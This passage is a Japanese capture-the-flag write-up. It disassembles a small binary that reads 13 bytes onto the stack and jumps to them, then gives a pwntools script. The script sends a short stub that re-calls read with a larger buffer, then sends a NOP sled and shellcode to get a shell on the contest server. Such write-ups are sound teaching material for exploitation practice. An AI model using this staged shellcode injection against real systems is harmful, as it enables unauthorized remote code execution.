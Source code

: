 を実行して、

```plaintext
        push   0x3
        pop    eax
        mov    ebx, 0x0
        mov    ecx, esp
        push   0xd
        pop    edx
        int    0x80
        jmp    esp
```

が得られる。`esp`に入力を書き込んで実行している。`0xd`バイトしかシェルコードを送れないので工夫が必要。

`read`システムコールは`eax`レジスタの値と`edx`の値だけ変えるので`eax`に 3 を、`edx`に適当な長いバッファ長を指定しもう一度`int 0x80`を発火させる。

`esp`から少し進んでしまっている場所から`esp`に書き込むので、最初は少し`nop`でスプレーしつつその後シェルコードを書き込めばシェルゲット。

```python
context.arch = "x86"
context.os = "linux"
context.bits = 32
def exploit():
    target = """
        push   0x3
        pop    eax
        mov    ebx, 0x0
        mov    ecx, esp
        push   0xd
        pop    edx
        int    0x80
        jmp    esp
    """

    # io = gdb.debug_assembly(target)
    io = remote("vsc.tf", 3026)

    injection = """
        push 0x3
        pop eax
        push 0x1000
        pop edx
        int 0x80
    """
    payload = asm(injection)
    assert len(payload) <= 0xD

    io.send(payload)

    staged = asm("nop") * 100 + asm(shellcraft.sh())
    io.send(staged)

    io.interactive()
```
